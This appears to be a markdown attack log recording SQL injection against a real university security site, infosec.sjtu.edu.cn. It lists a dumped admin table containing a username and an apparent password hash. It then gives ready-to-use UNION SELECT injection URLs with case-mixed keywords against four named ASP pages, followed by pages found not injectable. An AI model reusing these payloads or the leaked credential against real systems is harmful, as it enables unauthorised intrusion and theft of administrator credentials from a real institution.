 #SQL注入@http://infosec.sjtu.edu.cn
<table border="1">
<tr>
<td>Table</td>
<td>id</td>
<td>username</td>
<td>pwd</td>
<td>unknown</td>
<td>role</td>
<td>unknown</td>
<td>v</td>
</tr>
<tr>
<td>tb_admin</td>
<td>1</td>
<td>admin</td>
<td>1824c2755278e62f412de9aeebe1ea31 </td>
<td>管理员</td>
<td>NULL</td>
<td>unknown</td>
<td>1, 2, 3,4</td>
</tr>
</table>
##注入点@ResearchDetail.asp
http://infosec.sjtu.edu.cn/ResearchDetail.asp?id=1 unIOn seLEct 1,username,3,4,pwd,6,7,8,9,10,11,12,13 fROm tb_admin
##注入点@NewsDetail.asp
http://infosec.sjtu.edu.cn/NewsDetail.asp?id=1 unIOn seLEct 1,username,pwd,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27 fROm tb_admin
##注入点@UndergraduateDetail.asp
http://infosec.sjtu.edu.cn/UndergraduateDetail.asp?id=1 unIOn seLEct 1,username,pwd,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27 fROm tb_admin
##注入点@GraduateDetail.asp
http://infosec.sjtu.edu.cn/GraduateDetail.asp?id=1 unIOn seLEct 1,username,pwd,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27 fROm tb_admin
##非注入点
http://infosec.sjtu.edu.cn/PeopleDetail.asp?id=1033
http://infosec.sjtu.edu.cn/Base.asp?id=141